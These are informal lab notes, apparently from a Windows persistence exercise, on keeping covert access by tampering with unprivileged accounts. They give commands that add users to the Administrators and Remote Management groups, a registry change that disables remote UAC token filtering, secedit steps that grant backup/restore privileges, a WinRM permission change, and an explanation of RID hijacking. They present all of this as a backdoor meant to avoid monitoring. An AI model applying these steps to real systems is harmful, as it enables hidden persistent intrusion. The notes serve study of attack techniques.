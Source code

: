 
# Tampering with unprivileged users 

You might wonder we already have a admin user why i need a stupid fuck backdoor ??? Well it's simple admin user is heavily monitired and there's a pretty big chance we might get caught.

Adding a user to admin group 

```c
net localgroup administrators thmuser0 /add
```

```shell-session
net localgroup "Remote Management Users" thmuser1 /add
```

Also u can bypass UAC thingy 

```c
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```


# Special Privileges and Security Descriptors

We can export current config file 

```powershell
secedit /export /cfg config.inf
```

Then we will add our user to **SeBackupPrivilege** & **SeRestorePrivilege** group 

![[Pasted image 20230516172301.png]]

Now convert inf file to sdb file and load up the config 

```powershell
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

Now u can add that user to winrm using this 
```powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

# Rid hijacking 

When a user is created, an identifier called **Relative ID (RID)** is assigned to them. The RID is simply a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID. If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.

